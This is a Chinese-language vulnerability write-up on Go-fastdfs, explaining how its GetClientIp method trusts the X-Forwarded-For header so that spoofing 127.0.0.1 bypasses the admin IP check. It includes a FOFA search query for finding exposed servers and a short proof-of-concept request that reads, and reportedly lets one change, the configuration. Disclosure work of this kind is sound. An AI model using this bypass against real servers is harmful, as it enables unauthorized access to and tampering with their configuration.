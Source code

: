 # Go-fastdfs GetClientIp 未授权访问漏洞

## 漏洞描述

Go-fastdfs GetClientIp方法存在XFF头绕过漏洞，攻击者通过漏洞可以未授权调用接口，获取配置文件等敏感信息

## 漏洞影响

```
Go-fastdfs
```

## FOFA

```
"go-fastdfs"
```

## 漏洞复现

主页面

![image-20230417094508409](images/image-20230417094508409.png)

调用读取配置接口，返回 ip 不允许访问

```
/group1/reload?action=get
```

![image-20230417094521737](images/image-20230417094521737.png)

追踪错误信息代码

![image-20230417094533985](images/image-20230417094533985.png)

![image-20230417094542486](images/image-20230417094542486.png)

跟一下 GetClientIp方法，这里会从 X-Forwarded-For 等参数获取值

![image-20230417094554500](images/image-20230417094554500.png)

回到调用的起点，验证方法为调用 IsPeer 参数

![image-20230417094604965](images/image-20230417094604965.png)

![image-20230417094613037](images/image-20230417094613037.png)

这里主要是验证获取到的值是否为配置中的 AdminIps

![image-20230417094623353](images/image-20230417094623353.png)

在配置文件 cfg.json 中 admin_ips 默认为 127.0.0.1 (可被爆破)

![image-20230417100058531](images/image-20230417100058531.png)

所以通过设置 X-Forwarded-For 就可以绕过接口调用限制，执行修改配置文件等操作，验证POC

```
/group1/reload?action=get

X-Forwarded-For: 127.0.0.1
```

![image-20230417100112324](images/image-20230417100112324.png)